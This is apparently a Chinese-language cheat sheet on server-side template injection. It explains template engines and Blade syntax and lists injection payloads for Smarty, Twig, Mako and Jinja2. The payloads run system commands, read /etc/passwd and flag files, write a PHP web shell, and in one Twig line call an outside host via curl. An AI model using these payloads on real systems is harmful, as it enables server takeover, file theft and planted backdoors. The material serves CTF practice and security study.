


# SSTI模板注入
**模板引擎**
模板引擎是以业务逻辑层和表现层分离为目的的，将规定格式的模板代码转换为业务数据的算法实现

也就是说，利用模板引擎来生成前端的html代码，模板引擎会提供一套生成html代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成模板+用户数据的前端html页面，然后反馈给浏览器，呈现在用户面前。

但是新的模板引擎往往会有一些安全问题 , 即使大部分模板引擎有提供沙箱隔离机制 , 但同样存在沙箱逃逸技术来绕过
**页面渲染**

+ 前端渲染( SPA , 单页面应用 )
浏览器从服务器得到一些信息( 可能是 JSON 等各种数据交换格式所封装的数据包 , 也可能是合法的 HTML 字符串 )
浏览器将这些信息排列组合成人类可读的 HTML 字符串 . 然后解析为最终的 HTML 页面呈现给用户
整个过程都是由客户端浏览器完成的 , 因此对服务器后端的压力较小 , 仅需要传输数据即可
+ 后端渲染( SSR , 服务器渲染 )
浏览器会直接接收到经过服务器计算并排列组合后的 HTML 字符串 , 浏览器仅需要将字符串解析为呈现给用户的 HTML 页面就可以了 .
整个过程都是由服务器完成的 , 因此对客户端浏览器的压力较小 , 大部分任务都在服务器端完成了 , 浏览器仅需要解析并呈现 HTML 页面即可

模板判断图：


后端模板引擎

前端模板引擎

node中间层
为了解决上述不足，便出现了node中间层概念。
整个流程变为：浏览器 -> node -> 后端服务器 -> node -> 浏览器

## PHP模板引擎
### smarty模板注入
smarty常规利用方式：
```
{$smarty.version} 获取smarty版本号
{php}cmd{/php} 该标签在Smarty3.1中已经废弃
```
{literal}标签可以让一个模板区域的字符原样输出
```
<script language="php">phpinfo();</script>
```
getstreamVariable方法
```
{self::getstreamVariable("file:///ect/passwd")}
```
Smarty类的getStreamVariable方法的代码如下：
```
public function getStreamVariable($variable)
{
        $_result = '';
        $fp = fopen($variable, 'r+');
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }
        $smarty = isset($this->smarty) ? $this->smarty : $this;
        if ($smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
            return null;
        }
    }
```
3.1.30的Smarty已删除该方法。
{if}{/if} 也可使用{else} {elseif} 全部的PHP条件表达式和函数都可以在if内使用，如||,or,&&,and,is_array()等，如`{if is_array($array)}{/if}`
```
{if phpinfo()}{/if}
```
### 常见Smarty模板Payload
```
{if readfile('/flag')}{/if} smarty中的{if}标签中可以执行php语句
{$smarty.version} 返回版本信息
${smarty.template} 返回当前模板的文件名
使用{php}{/php}标签来执行被包裹其中的php指令 3.1版本已经废弃
{self::getStreamVariable(“file:///etc/passwd”)}
{literal}alert('xss');{/literal}
{literal}<script language="php">phpinfo();</script>{/literal} PHP 5.x
{system("id")} 最简单,枯燥的一个
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
 
{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat ../../../flag')}{/if}
{php}echo `id`;{/php}
```
### Twig模板注入

#### 常见Twig模板Payload
```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter('cat /flag')}}
{{["id"]|map("system")|join(",")
{{["id", 0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0, 0]|reduce("system", "id")|join(",")}}
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{'/etc/passwd'|file_excerpt(-1,-1)}}
{{app.request.query.filter(0,'curl${IFS}x.x.x.x:8090',1024,{'options':'system'})}}
{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}

{{app.request.files.get(1).openFile.fread(99)}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

{{_self.env.enableDebug()}}{{_self.env.isDebug()}}

{{["id"]|map("system")|join(",")

{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}

{{["id",0]|sort("system")|join(",")}}

{{["id"]|filter("system")|join(",")}}

{{[0,0]|reduce("system","id")|join(",")}}

{{['cat /etc/passwd']|filter('system')}}
```
### blade模板注入
#### 简介
 Blade 模板代码示例：
 
 ```
<h1>{{ $group->title }}</h1> 
{!! $group->imageHtml() !!} 
@forelse ($users as $user) 
    {{ $user->username }} {{ $user->nickname }}<br> 
@empty 
    该组中没有任何用户 
@endforelse
```
Blade模板引擎有三种常见语法：

+ 通过`{{}}`渲染PHP变量
+ 通过`{!! !!}`渲染HTML代码(yong'yu富文本数据渲染)
+ 通过以`@`作为前缀的Blade指令执行一些控制结构和继承、引入之类的操作
注：Blade模板代码存放在以`.blade.php`后缀结尾的视图文件中，最终会被编译成原生的PHP代码，并缓存起来，直到视图模板有修改才会再次编译，所以拥有与原生PHP几乎一致的性能，这些编译后的代码位于`storage/framework/views`目录下。当然可以在模板中使用原生的PHP代码，并不建议，可以通过`@php`指令引入
#### 渲染数据
通过`{{}}`包裹需要渲染的PHP变量，类似`<?php echo $variables;?>`，但是模板代码功能更强大，包裹的变量会通过`htmlentities()`方法进行HTML字符转义。所以等价`<?php echo htmlentities($variables);?>`
某些情况下不能对HTML字符进行转义，比如通过表单提交富文本数据，该场景就需要使用`{!! !!}`来包裹数据`{!! $variables !!}`，编译后的代码就是`<?php echo $variables;?>`
关于数据变量的渲染，很多前端框架也是通过`{{}}`来输出JavaScript变量数据的，如Vue.js，对于这种情况，需要在渲染前端JavaScript变量的`{{}}`加上`@`前缀，这样在Blade模板引擎在编译模板代码的时候就会跳过带`@`前缀的`{{}}`数据渲染，并将`@`移除从而可以后续执行对应的JavaScript框架渲染逻辑：
```
//Blade引擎会将其编译成对应的PHP代码
{{$phpData}}
//Blade引擎会移除@，保留{{}}结构
@{{vuedata}}
```
通过{{--content--}}实现注释
#### 控制结构
**条件语句**
@if、@else、@elseif
@if等价于PHP的`<?php if($condition): >` 其余依次类推
```
@if (count($students) === 1) 
    操场上只有一个同学
@elseif (count($students) === 0)
    操场上一个同学也没有
@else
    操场上有 {{ count($students) }} 个同学
@endif
```
`@unless`用于表示和 @if 条件相反的条件，`@unless($condition)` 可以理解为 `<?php if (!$condition):`，然后以` @endunless` 收尾：
```
@unless ($user->hasPaid()) 
    用户支付之后才能享受该服务
@endunless
```
`@isset、@empty`和 PHP 中的 isset() 和 empty() 方法等价：
```
@isset($records)
    // 记录被设置
@endisset

@empty($records)
    // 记录为空
@endempty
```
#### 循环结构
过与之等价的 @for、@foreach 和 @while 实现循环控制结构，使用语法和 PHP 代码相仿：
```
// for 循环
@for ($i = 0; $i < $talk->slotsCount(); $i++) 
    The number is {{ $i }}<br> 
@endfor

// foreach 循环
@foreach ($talks as $talk)
    {{ $talk->title }} ({{ $talk->length }} 分钟)<br> 
@endforeach

// while 循环  
@while ($item = array_pop($items)) 
    {{ $item->orSomething() }}<br> 
@endwhile
```
@forelse
```
<?php 
if ($students) {
    foreach ($students as $student) {
       // do something ...
    }
} else {
    // do something else ...
}
```
在 Blade 模板中我们可以使用 @forelse 指令通过以下代码实现上述逻辑：
```
@forelse ($students as $student)
    // do something ...
@empty
    // do something else ...
@endforelse    
```
@foreach 和 @forelse 中的 $loop 变量
在循环控制结构中，我们要重磅介绍的就是 Blade 模板为 @foreach 和 @forelse 循环结构提供的 \$loop 变量了，通过该变量，我们可以在循环体中轻松访问该循环体的很多信息，而不用自己编写那些恼人的面条式代码，比如当前迭代索引、嵌套层级、元素总量、当前索引在循环中的位置等，$loop 实例上有以下属性可以直接访问：
```
<ul> 
@foreach ($pages as $page)
    @if ($loop->first)
        // 第一个循环迭代
    @endif 
    <li>{{ $loop->iteration }}: {{ $page->title }} 
        @if ($page->hasChildren()) 
        <ul> @foreach ($page->children() as $child) 
            <li>{{ $loop->parent->iteration }}. {{ $loop->iteration }}: {{ $child->title }}</li> 
            @endforeach 
        </ul> 
        @endif 
    </li> 
    @if ($loop->last)
        // 最后一个循环迭代
    @endif
@endforeach 
</ul>
```
#### 常见Blade模板Payload

## Python 模板引擎
### Mako
#### 基础语法
**变量取值：**
`${ }`：输入 `1+1`，`字符串`，`方法`，都会有执行结果
显示变量temp的值：`${temp}`
变量temp乘2：`${temp*2}`
变量temp的平方：`${pow(temp,2)}`
**转义符**

在定义变量时，如果其中包含特殊符号时记得要使用转义符转换。u负责转换URL地址，h转换HTML，x对XML进行转义，trim就是去空格啦。

```
url: ${"there is some text"}
url(with escaping): ${"there is some text" | u}
```
执行：
```
url: there is some text
url(with escaping): there+is+some+text##空格被解析为+号
html: ${"show <table>"}
html(with escaping): ${"show <table>" | h}
```
执行：
```
html: show <table>
html(with escaping): show &lt;table&gt;##<>被成功转义
```
**控制结构：**
```
%for ... : %endfor
%if ... : ... %elif: ... % else: ... %endif
Python 代码块：

<%%>
```
**导入模块：**
```
<%! %>
```
**定义函数：**
`<%def name="..." > ... </%def>`，调用：`${...()}`
**注释：**
`##（单行）、<%doc>（多行）`
**其他：**
继承模板：`<%inherit ... />`
包含模板：`<%include ... />`
引用：`<%page ... />`
`==`可以看到上面非常依赖 `%`，如果非要用到 `%`，需要写成 `%%==`
#### 常见Mako模板Payload
因为Mako模板下完全支持python代码的执行,可以直接注入python的攻击代码
```
<%!
import os
os.system("whoami")
%>
# 或者
<%__import__("os").system("ls")%>
# 或者
${__import__("os").system("whoami")}
```
### Jinja2
#### 常见JInja2模板Payload
```

    
      
      
        
          {{ b['eval']('__import__("os").popen("whoami").read()') }}
        
      
      
    
    
```
## Java模板引擎
### JSP
### FreeMarker
### Velocity
